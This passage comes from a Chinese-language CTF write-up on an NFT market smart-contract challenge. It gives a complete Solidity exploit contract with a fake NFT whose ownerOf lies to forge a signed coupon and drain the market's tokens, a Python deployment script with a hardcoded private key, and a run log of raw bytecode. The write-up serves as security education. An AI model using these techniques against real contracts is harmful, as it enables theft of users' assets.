最后我们把`#2`NFT拿下并且利用之前的布局将`#1`买回，看到`Market`的`purchaseTest`，它允许我们用`Market`的代币以指定价格来购买一个NFT，并且这个付款是给这个指定NFT的原`owner`的。前面我们提到`Market`合约的代币余额为`1337`，而且`#2`NFT的价格也为`1337`，那么我们直接让其以`1337`的价格购买我们前面拿下的`#1`NFT，这样就有钱买`#2`NFT了，并且我们还剩有一些代币以买回`#1`NFT。


根据上述分析，得到`Hack2`，第一次`Market.purchaseOrder(1)`后，`Market`的`orders`为`[#3,#1]`，所以再执行一次`Market.purchaseOrder(1)`买回`#1`NFT，至此我们已经拿到了全部NFT，调用`Market.win()`即可触发`SendFlag`事件。


下面给出完整的`Hacker.sol`攻击合约代码（这里的`target.sol`就是题目合约文件 上面分析已经很详细了 就不给注释了）：

```solidity
pragma solidity 0.8.16;

import "./target.sol";

contract Hacker {
    CtfMarket Market;
    CtfNFT NFT;
    CtfToken Token;
    CouponVerifierBeta Verifier;
    HackerNFT FakeNFT;
    address Me;

    constructor(address _marketAddress) {
        Market = CtfMarket(_marketAddress);
        NFT = CtfNFT(Market.ctfNFT());
        NFT.setApprovalForAll(address(Market), true);
        Token = CtfToken(Market.ctfToken());
        Token.approve(address(Market), type(uint256).max);
        Verifier = CouponVerifierBeta(Market.verifier());
        FakeNFT = new HackerNFT(address(Market), address(Verifier), msg.sender);
        FakeNFT.mint(address(this), 1);
        FakeNFT.mint(address(this), 2);
        FakeNFT.mint(address(this), 3);
        FakeNFT.setApprovalForAll(msg.sender, true);
        Me = msg.sender;
    }

    function Hack1() public {
        Token.airdrop();
        Market.purchaseOrder(0);
        NFT.approve(address(Market), 1);
    }

    function GetMessageHashToSign() public view returns (bytes32) {
        Order memory FakeOrder = Order(address(FakeNFT), 3, 1);
        Coupon memory FakeCoupon = Coupon(
            3,
            1,
            Me,
            address(this),
            "want to get flag"
        );
        bytes32 MessageHash = keccak256(
            abi.encode(
                "I, the issuer",
                FakeCoupon.issuer,
                "offer a special discount for",
                FakeCoupon.user,
                "to buy",
                FakeOrder,
                "at",
                FakeCoupon.newprice,
                "because",
                FakeCoupon.reason
            )
        );
        return MessageHash;
    }

    function Hack3(
        uint8 v,
        bytes32 r,
        bytes32 s
    ) public {
        Market.createOrder(address(NFT), 1, 1);
        Market.createOrder(address(FakeNFT), 3, 1);
        Market.createOrder(address(NFT), 1, 1);
        Order memory FakeOrder = Order(address(FakeNFT), 3, 1);
        Coupon memory FakeCoupon = Coupon(
            3,
            1,
            Me,
            address(this),
            "want to get flag"
        );
        Signature memory FakeSignature = Signature(v, [r, s]);
        SignedCoupon memory FakeSignedCoupon = SignedCoupon(
            FakeCoupon,
            FakeSignature
        );
        Market.purchaseWithCoupon(FakeSignedCoupon);
    }

    function Hack2() public {
        Market.purchaseTest(address(NFT), 1, 1337);
        Market.purchaseOrder(1);
        Market.purchaseOrder(1);
        Market.win();
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) public pure returns (bytes4) {
        return this.onERC721Received.selector;
    }
}

contract HackerNFT is ERC721, Ownable {
    address Market;
    address Verifier;
    address Hacker;
    address Me;

    constructor(
        address _marketAddress,
        address _verifierAddress,
        address _me
    ) ERC721("HackerNFT", "NFT") {
        Market = _marketAddress;
        Verifier = _verifierAddress;
        Hacker = msg.sender;
        Me = _me;
        _setApprovalForAll(address(this), Hacker, true);
        _setApprovalForAll(address(Market), Hacker, true);
    }

    function mint(address to, uint256 tokenId) external onlyOwner {
        _mint(to, tokenId);
    }

    function ownerOf(uint256 tokenId) public view override returns (address) {
        if (msg.sender == Verifier) {
            return Me;
        } else if (msg.sender == Market) {
            return Market;
        } else {
            return Hacker;
        }
    }
}

```


根据上述分析编写链上交互脚本（已给出详细注释）：

```python
from Poseidon.Blockchain import *   # https://github.com/B1ue1nWh1te/Poseidon


# 连接至链
chain = Chain("http://140.210.217.225:8545")

# 导入账户
account = Account(chain, "13b0708eeaea2b2ec752d18f9e71780c3a51d29e3c6944ab171b1a568a4f01c3")

# 选择 Solidity 版本
BlockchainUtils.SwitchSolidityVersion("0.8.16")

# 题目合约地址
MarketAddress = "0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6"

# 编译攻击合约
abi, bytecode = BlockchainUtils.Compile("hacker.sol", "Hacker")

# 部署攻击合约
Hacker = account.DeployContract(abi, bytecode, 0, MarketAddress)["Contract"]

# 攻击 #1 NFT
Hacker.CallFunction("Hack1")

# 获取消息哈希以便进行签名
MessageHash = Hacker.ReadOnlyCallFunction("GetMessageHashToSign").hex()


# 以 EIP-712 标准对消息哈希进行签名
def SignMessageHash(MessageHash):
    SignedData = chain.Net.eth.account.signHash(MessageHash, account.PrivateKey)
    Signature = SignedData.signature.hex()
    V = '0x' + Signature[-2:]
    R = '0x' + Signature[2:66]
    S = '0x' + Signature[66:-2]
    return(V, R, S)


# 签名得到 v,r,s
V, R, S = SignMessageHash(MessageHash)

# 攻击 #3 NFT
Hacker.CallFunction("Hack3", int(V, 16), R, S)

# 攻击 #2 NFT
Hacker.CallFunction("Hack2")

```


运行日志如下（以下结果是写题解复现时的）：

```log
2022-11-06 10:45:18.027 | SUCCESS  | Poseidon.Blockchain:__init__:32 - 
[Chain][Connect]Successfully connected to [http://140.210.217.225:8545]. [Delay] 128 ms
2022-11-06 10:45:18.056 | SUCCESS  | Poseidon.Blockchain:__init__:241 - 
[Account][Import]Successfully import account [0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba].
2022-11-06 10:45:18.134 | SUCCESS  | Poseidon.Blockchain:GetBalance:122 - 
[Chain][GetBalance][0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba]
[1000000000000000000 Wei]<=>[1 Ether]
信息: 用提供的模式无法找到文件。
2022-11-06 10:45:18.423 | SUCCESS  | Poseidon.Blockchain:SwitchSolidityVersion:580 - 
[BlockchainUtils][SwitchSolidityVersion]Current Version: 0.8.16
2022-11-06 10:45:19.125 | SUCCESS  | Poseidon.Blockchain:Compile:610 - 
[BlockchainUtils][Compile]
[FileCourse]hacker.sol
[ContractName]Hacker
[ABI][{'inputs': [{'internalType': 'address', 'name': '_marketAddress', 'type': 'address'}], 'stateMutability': 'nonpayable', 'type': 'constructor'}, {'inputs': [], 'name': 'GetMessageHashToSign', 'outputs': [{'internalType': 'bytes32', 'name': '', 'type': 'bytes32'}], 'stateMutability': 'view', 'type': 'function'}, {'inputs': [], 'name': 'Hack1', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}, {'inputs': [], 'name': 'Hack2', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}, {'inputs': [{'internalType': 'uint8', 'name': 'v', 'type': 'uint8'}, {'internalType': 'bytes32', 'name': 'r', 'type': 'bytes32'}, {'internalType': 'bytes32', 'name': 's', 'type': 'bytes32'}], 'name': 'Hack3', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}, {'inputs': [{'internalType': 'address', 'name': '', 'type': 'address'}, {'internalType': 'address', 'name': '', 'type': 'address'}, {'internalType': 'uint256', 'name': '', 'type': 'uint256'}, {'internalType': 'bytes', 'name': '', 'type': 'bytes'}], 'name': 'onERC721Received', 'outputs': [{'internalType': 'bytes4', 'name': '', 'type': 'bytes4'}], 'stateMutability': 'pure', 'type': 'function'}]
[Bytecode]60806040523480156200001157600080fd5b50604051620056f7380380620056f7833981810160405281019062000037919062000856565b806000806101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663cee092e86040518163ffffffff1660e01b8152600401602060405180830381865afa158015620000e3573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190620001099190620008cd565b600160006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a22cb46560008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016040518363ffffffff1660e01b8152600401620001c99291906200092d565b600060405180830381600087803b158015620001e457600080fd5b505af1158015620001f9573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663144c7cc76040518163ffffffff1660e01b8152600401602060405180830381865afa15801562000269573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906200028f91906200099f565b600260006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663095ea7b360008054906101000a900473ffffffffffffffffffffffffffffffffffffffff167fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff6040518363ffffffff1660e01b81526004016200036e929190620009ec565b6020604051808303816000875af11580156200038e573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190620003b4919062000a4a565b5060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16632b7ac3f36040518163ffffffff1660e01b8152600401602060405180830381865afa15801562000421573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019062000447919062000ac1565b600360006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1633604051620004da90620007de565b620004e89392919062000af3565b604051809103906000f08015801562000505573d6000803e3d6000fd5b50600460006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166340c10f193060016040518363ffffffff1660e01b8152600401620005a692919062000b7d565b600060405180830381600087803b158015620005c157600080fd5b505af1158015620005d6573d6000803e3d6000fd5b50505050600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166340c10f193060026040518363ffffffff1660e01b81526004016200063a92919062000bed565b600060405180830381600087803b1580156200065557600080fd5b505af11580156200066a573d6000803e3d6000fd5b50505050600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166340c10f193060036040518363ffffffff1660e01b8152600401620006ce92919062000c5d565b600060405180830381600087803b158015620006e957600080fd5b505af1158015620006fe573d6000803e3d6000fd5b50505050600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a22cb4653360016040518363ffffffff1660e01b8152600401620007629291906200092d565b600060405180830381600087803b1580156200077d57600080fd5b505af115801562000792573d6000803e3d6000fd5b5050505033600560006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055505062000c8a565b613463806200229483390190565b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b60006200081e82620007f1565b9050919050565b620008308162000811565b81146200083c57600080fd5b50565b600081519050620008508162000825565b92915050565b6000602082840312156200086f576200086e620007ec565b5b60006200087f848285016200083f565b91505092915050565b6000620008958262000811565b9050919050565b620008a78162000888565b8114620008b357600080fd5b50565b600081519050620008c7816200089c565b92915050565b600060208284031215620008e657620008e5620007ec565b5b6000620008f684828501620008b6565b91505092915050565b6200090a8162000811565b82525050565b60008115159050919050565b620009278162000910565b82525050565b6000604082019050620009446000830185620008ff565b6200095360208301846200091c565b9392505050565b6000620009678262000811565b9050919050565b62000979816200095a565b81146200098557600080fd5b50565b60008151905062000999816200096e565b92915050565b600060208284031215620009b857620009b7620007ec565b5b6000620009c88482850162000988565b91505092915050565b6000819050919050565b620009e681620009d1565b82525050565b600060408201905062000a036000830185620008ff565b62000a126020830184620009db565b9392505050565b62000a248162000910565b811462000a3057600080fd5b50565b60008151905062000a448162000a19565b92915050565b60006020828403121562000a635762000a62620007ec565b5b600062000a738482850162000a33565b91505092915050565b600062000a898262000811565b9050919050565b62000a9b8162000a7c565b811462000aa757600080fd5b50565b60008151905062000abb8162000a90565b92915050565b60006020828403121562000ada5762000ad9620007ec565b5b600062000aea8482850162000aaa565b91505092915050565b600060608201905062000b0a6000830186620008ff565b62000b196020830185620008ff565b62000b286040830184620008ff565b949350505050565b6000819050919050565b6000819050919050565b600062000b6562000b5f62000b598462000b30565b62000b3a565b620009d1565b9050919050565b62000b778162000b44565b82525050565b600060408201905062000b946000830185620008ff565b62000ba3602083018462000b6c565b9392505050565b6000819050919050565b600062000bd562000bcf62000bc98462000baa565b62000b3a565b620009d1565b9050919050565b62000be78162000bb4565b82525050565b600060408201905062000c046000830185620008ff565b62000c13602083018462000bdc565b9392505050565b6000819050919050565b600062000c4562000c3f62000c398462000c1a565b62000b3a565b620009d1565b9050919050565b62000c578162000c24565b82525050565b600060408201905062000c746000830185620008ff565b62000c83602083018462000c4c565b9392505050565b6115fa8062000c9a6000396000f3fe608060405234801561001057600080fd5b50600436106100575760003560e01c8063150b7a021461005c5780635ac174d01461008c578063772b508314610096578063bb3ee56d146100b4578063e4db78d7146100be575b600080fd5b61007660048036038101906100719190610c73565b6100da565b6040516100839190610d31565b60405180910390f35b6100946100ee565b005b61009e61033c565b6040516100ab9190610d65565b60405180910390f35b6100bc610492565b005b6100d860048036038101906100d39190610de5565b610652565b005b600063150b7a0260e01b9050949350505050565b60008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16635764950f600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016105396040518463ffffffff1660e01b815260040161017093929190610ec7565b600060405180830381600087803b15801561018a57600080fd5b505af115801561019e573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16636495b22860016040518263ffffffff1660e01b81526004016101fc9190610efe565b600060405180830381600087803b15801561021657600080fd5b505af115801561022a573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16636495b22860016040518263ffffffff1660e01b81526004016102889190610efe565b600060405180830381600087803b1580156102a257600080fd5b505af11580156102b6573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663473ca96c6040518163ffffffff1660e01b8152600401600060405180830381600087803b15801561032257600080fd5b505af1158015610336573d6000803e3d6000fd5b50505050565b6000806040518060600160405280600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001600381526020016001815250905060006040518060a001604052806003815260200160018152602001600560009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020013073ffffffffffffffffffffffffffffffffffffffff1681526020016040518060400160405280601081526020017f77616e7420746f2067657420666c61670000000000000000000000000000000081525081525090506000816040015182606001518484602001518560800151604051602001610471959493929190611194565b60405160208183030381529060405280519060200120905080935050505090565b600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16633884d6356040518163ffffffff1660e01b8152600401600060405180830381600087803b1580156104fc57600080fd5b505af1158015610510573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16636495b22860006040518263ffffffff1660e01b815260040161056e919061128d565b600060405180830381600087803b15801561058857600080fd5b505af115801561059c573d6000803e3d6000fd5b50505050600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663095ea7b360008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016040518363ffffffff1660e01b815260040161061e9291906112a8565b600060405180830381600087803b15801561063857600080fd5b505af115801561064c573d6000803e3d6000fd5b50505050565b60008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663acfee8ed600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff166001806040518463ffffffff1660e01b81526004016106d2939291906112d1565b6020604051808303816000875af11580156106f1573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190610715919061131d565b5060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663acfee8ed600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600360016040518463ffffffff1660e01b815260040161079793929190611385565b6020604051808303816000875af11580156107b6573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906107da919061131d565b5060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663acfee8ed600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff166001806040518463ffffffff1660e01b815260040161085b939291906112d1565b6020604051808303816000875af115801561087a573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019061089e919061131d565b5060006040518060600160405280600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001600381526020016001815250905060006040518060a001604052806003815260200160018152602001600560009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020013073ffffffffffffffffffffffffffffffffffffffff1681526020016040518060400160405280601081526020017f77616e7420746f2067657420666c6167000000000000000000000000000000008152508152509050600060405180604001604052808760ff16815260200160405180604001604052808881526020018781525081525090506000604051806040016040528084815260200183815250905060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663b40da948826040518263ffffffff1660e01b8152600401610a4a91906115a2565b600060405180830381600087803b158015610a6457600080fd5b505af1158015610a78573d6000803e3d6000fd5b5050505050505050505050565b6000604051905090565b600080fd5b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000610ac482610a99565b9050919050565b610ad481610ab9565b8114610adf57600080fd5b50565b600081359050610af181610acb565b92915050565b6000819050919050565b610b0a81610af7565b8114610b1557600080fd5b50565b600081359050610b2781610b01565b92915050565b600080fd5b600080fd5b6000601f19601f8301169050919050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b610b8082610b37565b810181811067ffffffffffffffff82111715610b9f57610b9e610b48565b5b80604052505050565b6000610bb2610a85565b9050610bbe8282610b77565b919050565b600067ffffffffffffffff821115610bde57610bdd610b48565b5b610be782610b37565b9050602081019050919050565b82818337600083830152505050565b6000610c16610c1184610bc3565b610ba8565b905082815260208101848484011115610c3257610c31610b32565b5b610c3d848285610bf4565b509392505050565b600082601f830112610c5a57610c59610b2d565b5b8135610c6a848260208601610c03565b91505092915050565b60008060008060808587031215610c8d57610c8c610a8f565b5b6000610c9b87828801610ae2565b9450506020610cac87828801610ae2565b9350506040610cbd87828801610b18565b925050606085013567ffffffffffffffff811115610cde57610cdd610a94565b5b610cea87828801610c45565b91505092959194509250565b60007fffffffff0000000000000000000000000000000000000000000000000000000082169050919050565b610d2b81610cf6565b82525050565b6000602082019050610d466000830184610d22565b92915050565b6000819050919050565b610d5f81610d4c565b82525050565b6000602082019050610d7a6000830184610d56565b92915050565b600060ff82169050919050565b610d9681610d80565b8114610da157600080fd5b50565b600081359050610db381610d8d565b92915050565b610dc281610d4c565b8114610dcd57600080fd5b50565b600081359050610ddf81610db9565b92915050565b600080600060608486031215610dfe57610dfd610a8f565b5b6000610e0c86828701610da4565b9350506020610e1d86828701610dd0565b9250506040610e2e86828701610dd0565b9150509250925092565b610e4181610ab9565b82525050565b6000819050919050565b6000819050919050565b6000610e76610e71610e6c84610e47565b610e51565b610af7565b9050919050565b610e8681610e5b565b82525050565b6000819050919050565b6000610eb1610eac610ea784610e8c565b610e51565b610af7565b9050919050565b610ec181610e96565b82525050565b6000606082019050610edc6000830186610e38565b610ee96020830185610e7d565b610ef66040830184610eb8565b949350505050565b6000602082019050610f136000830184610e7d565b92915050565b600082825260208201905092915050565b7f492c207468652069737375657200000000000000000000000000000000000000600082015250565b6000610f60600d83610f19565b9150610f6b82610f2a565b602082019050919050565b7f6f666665722061207370656369616c20646973636f756e7420666f7200000000600082015250565b6000610fac601c83610f19565b9150610fb782610f76565b602082019050919050565b7f746f206275790000000000000000000000000000000000000000000000000000600082015250565b6000610ff8600683610f19565b915061100382610fc2565b602082019050919050565b61101781610ab9565b82525050565b61102681610af7565b82525050565b606082016000820151611042600085018261100e565b506020820151611055602085018261101d565b506040820151611068604085018261101d565b50505050565b7f6174000000000000000000000000000000000000000000000000000000000000600082015250565b60006110a4600283610f19565b91506110af8261106e565b602082019050919050565b6110c381610af7565b82525050565b7f6265636175736500000000000000000000000000000000000000000000000000600082015250565b60006110ff600783610f19565b915061110a826110c9565b602082019050919050565b600081519050919050565b600082825260208201905092915050565b60005b8381101561114f578082015181840152602081019050611134565b60008484015250505050565b600061116682611115565b6111708185611120565b9350611180818560208601611131565b61118981610b37565b840191505092915050565b60006101808201905081810360008301526111ae81610f53565b90506111bd6020830188610e38565b81810360408301526111ce81610f9f565b90506111dd6060830187610e38565b81810360808301526111ee81610feb565b90506111fd60a083018661102c565b81810361010083015261120f81611097565b905061121f6101208301856110ba565b818103610140830152611231816110f2565b9050818103610160830152611246818461115b565b90509695505050505050565b6000819050919050565b600061127761127261126d84611252565b610e51565b610af7565b9050919050565b6112878161125c565b82525050565b60006020820190506112a2600083018461127e565b92915050565b60006040820190506112bd6000830185610e38565b6112ca6020830184610e7d565b9392505050565b60006060820190506112e66000830186610e38565b6112f36020830185610e7d565b6113006040830184610e7d565b949350505050565b60008151905061131781610b01565b92915050565b60006020828403121561133357611332610a8f565b5b600061134184828501611308565b91505092915050565b6000819050919050565b600061136f61136a6113658461134a565b610e51565b610af7565b9050919050565b61137f81611354565b82525050565b600060608201905061139a6000830186610e38565b6113a76020830185611376565b6113b46040830184610e7d565b949350505050565b600082825260208201905092915050565b60006113d882611115565b6113e281856113bc565b93506113f2818560208601611131565b6113fb81610b37565b840191505092915050565b600060a08301600083015161141e600086018261101d565b506020830151611431602086018261101d565b506040830151611444604086018261100e565b506060830151611457606086018261100e565b506080830151848203608086015261146f82826113cd565b9150508091505092915050565b61148581610d80565b82525050565b600060029050919050565b600081905092915050565b6000819050919050565b6114b481610d4c565b82525050565b60006114c683836114ab565b60208301905092915050565b6000602082019050919050565b6114e88161148b565b6114f28184611496565b92506114fd826114a1565b8060005b8381101561152e57815161151587826114ba565b9650611520836114d2565b925050600181019050611501565b505050505050565b60608201600082015161154c600085018261147c565b50602082015161155f60208501826114df565b50505050565b600060808301600083015184820360008601526115828282611406565b91505060208301516115976020860182611536565b508091505092915050565b600060208201905081810360008301526115bc8184611565565b90509291505056fea2646970667358221220a7d65bb6c00aa70f0e2dc3f4bb9e8ae881b2558cfcb91c69c6225187e060130964736f6c6343000810003360806040523480156200001157600080fd5b50604051620034633803806200346383398181016040528101906200003791906200052d565b6040518060400160405280600981526020017f4861636b65724e465400000000000000000000000000000000000000000000008152506040518060400160405280600381526020017f4e465400000000000000000000000000000000000000000000000000000000008152508160009081620000b4919062000803565b508060019081620000c6919062000803565b505050620000e9620000dd6200028460201b60201c565b6200028c60201b60201c565b82600760006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555081600860006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555033600960006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555080600a60006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055506200022330600960009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016200035260201b60201c565b6200027b600760009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600960009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016200035260201b60201c565b505050620009a7565b600033905090565b6000600660009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16905081600660006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055508173ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff167f8be0079c531659141344cd1fd0a4f28419497f9722a3daafe3b4186f6b6457e060405160405180910390a35050565b8173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff1603620003c3576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401620003ba906200094b565b60405180910390fd5b80600560008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060006101000a81548160ff0219169083151502179055508173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff167f17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c3183604051620004b691906200098a565b60405180910390a3505050565b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000620004f582620004c8565b9050919050565b6200050781620004e8565b81146200051357600080fd5b50565b6000815190506200052781620004fc565b92915050565b600080600060608486031215620005495762000548620004c3565b5b6000620005598682870162000516565b93505060206200056c8682870162000516565b92505060406200057f8682870162000516565b9150509250925092565b600081519050919050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b7f4e487b7100000000000000000000000000000000000000000000000000000000600052602260045260246000fd5b600060028204905060018216806200060b57607f821691505b602082108103620006215762000620620005c3565b5b50919050565b60008190508160005260206000209050919050565b60006020601f8301049050919050565b600082821b905092915050565b6000600883026200068b7fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff826200064c565b6200069786836200064c565b95508019841693508086168417925050509392505050565b6000819050919050565b6000819050919050565b6000620006e4620006de620006d884620006af565b620006b9565b620006af565b9050919050565b6000819050919050565b6200070083620006c3565b620007186200070f82620006eb565b84845462000659565b825550505050565b600090565b6200072f62000720565b6200073c818484620006f5565b505050565b5b8181101562000764576200075860008262000725565b60018101905062000742565b5050565b601f821115620007b3576200077d8162000627565b62000788846200063c565b8101602085101562000798578190505b620007b0620007a7856200063c565b83018262000741565b50505b505050565b600082821c905092915050565b6000620007d860001984600802620007b8565b1980831691505092915050565b6000620007f38383620007c5565b9150826002028217905092915050565b6200080e8262000589565b67ffffffffffffffff8111156200082a576200082962000594565b5b620008368254620005f2565b6200084382828562000768565b600060209050601f8311600181146200087b576000841562000866578287015190505b620008728582620007e5565b865550620008e2565b601f1984166200088b8662000627565b60005b82811015620008b5578489015182556001820191506020850194506020810190506200088e565b86831015620008d55784890151620008d1601f891682620007c5565b8355505b6001600288020188555050505b505050505050565b600082825260208201905092915050565b7f4552433732313a20617070726f766520746f2063616c6c657200000000000000600082015250565b600062000933601983620008ea565b91506200094082620008fb565b602082019050919050565b60006020820190508181036000830152620009668162000924565b9050919050565b60008115159050919050565b62000984816200096d565b82525050565b6000602082019050620009a1600083018462000979565b92915050565b612aac80620009b76000396000f3fe608060405234801561001057600080fd5b506004361061010b5760003560e01c806370a08231116100a2578063a22cb46511610071578063a22cb465146102a4578063b88d4fde146102c0578063c87b56dd146102dc578063e985e9c51461030c578063f2fde38b1461033c5761010b565b806370a082311461022e578063715018a61461025e5780638da5cb5b1461026857806395d89b41146102865761010b565b806323b872dd116100de57806323b872dd146101aa57806340c10f19146101c657806342842e0e146101e25780636352211e146101fe5761010b565b806301ffc9a71461011057806306fdde0314610140578063081812fc1461015e578063095ea7b31461018e575b600080fd5b61012a60048036038101906101259190611c13565b610358565b6040516101379190611c5b565b60405180910390f35b61014861043a565b6040516101559190611d06565b60405180910390f35b61017860048036038101906101739190611d5e565b6104cc565b6040516101859190611dcc565b60405180910390f35b6101a860048036038101906101a39190611e13565b610512565b005b6101c460048036038101906101bf9190611e53565b610629565b005b6101e060048036038101906101db9190611e13565b610689565b005b6101fc60048036038101906101f79190611e53565b61069f565b005b61021860048036038101906102139190611d5e565b6106bf565b6040516102259190611dcc565b60405180910390f35b61024860048036038101906102439190611ea6565b6107ea565b6040516102559190611ee2565b60405180910390f35b6102666108a1565b005b6102706108b5565b60405161027d9190611dcc565b60405180910390f35b61028e6108df565b60405161029b9190611d06565b60405180910390f35b6102be60048036038101906102b99190611f29565b610971565b005b6102da60048036038101906102d5919061209e565b610987565b005b6102f660048036038101906102f19190611d5e565b6109e9565b6040516103039190611d06565b60405180910390f35b61032660048036038101906103219190612121565b610a51565b6040516103339190611c5b565b60405180910390f35b61035660048036038101906103519190611ea6565b610ae5565b005b60007f80ac58cd000000000000000000000000000000000000000000000000000000007bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916827bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916148061042357507f5b5e139f000000000000000000000000000000000000000000000000000000007bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916827bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916145b80610433575061043282610b68565b5b9050919050565b60606000805461044990612190565b80601f016020809104026020016040519081016040528092919081815260200182805461047590612190565b80156104c25780601f10610497576101008083540402835291602001916104c2565b820191906000526020600020905b8154815290600101906020018083116104a557829003601f168201915b5050505050905090565b60006104d782610bd2565b6004600083815260200190815260200160002060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff169050919050565b600061051d82610c1d565b90508073ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff160361058d576040517f08c379a00000000000000000000000000000000000000000000000000000000081526